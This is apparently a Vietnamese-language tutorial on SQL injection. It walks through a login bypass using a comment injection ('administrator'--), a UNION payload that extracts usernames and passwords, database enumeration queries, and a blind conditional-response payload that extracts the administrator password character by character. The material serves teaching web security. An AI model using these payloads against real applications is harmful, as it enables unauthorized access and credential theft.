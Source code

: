 ## **Subverting application logic (Phá vỡ logic)** ##

- Hãy xem xét một ứng dụng cho phép người dùng đăng nhập bằng tên người dùng và mật khẩu. Nếu người dùng gửi wiener tên người dùng và mật khẩu bluecheese, ứng dụng sẽ kiểm tra thông tin đăng nhập bằng cách thực hiện truy vấn SQL sau:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

- Nếu truy vấn trả về thông tin chi tiết của người dùng thì đăng nhập thành công. Nếu không, nó bị từ chối.

- Kẻ tấn công có thể đăng nhập bất kì với tư cách là người dùng mà không cần mật khẩu như sau.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## **Retrieving data from other database tables (Lấy dữ liệu từ các bảng cơ sở dữ liệu khác)** ##

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

- Kẻ tấn công có thể gửi input nhập vào như sau:

```sql
' UNION SELECT username, password FROM users--
```

## **Examining the database** ##

- Bạn có thể truy vấn chi tiết phiên bản cho cơ sở dữ liệu.

```sql
SELECT * FROM v$version
```

- Bạn cũng có thể xác định những bảng cơ sở dữ liệu nào tồn tại và chúng chứa những cột nào.

```sql
SELECT * FROM information_schema.tables
```

## **Blind SQL injection vulnerabilities** ##

- Nhiều khi ứng dụng không trả về kết quả truy vấn của sql hoặc chi tiết về bất cứ cơ sơ dữ liệu nào. Các lỗ hổng blind sql vẫn có thể bị khai thác truy cập dữ liệu trái phép.

- Khai thác dựa trên sự khác biệt qua response.

> ### **Exploiting blind SQL injection by triggering conditional responses**

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
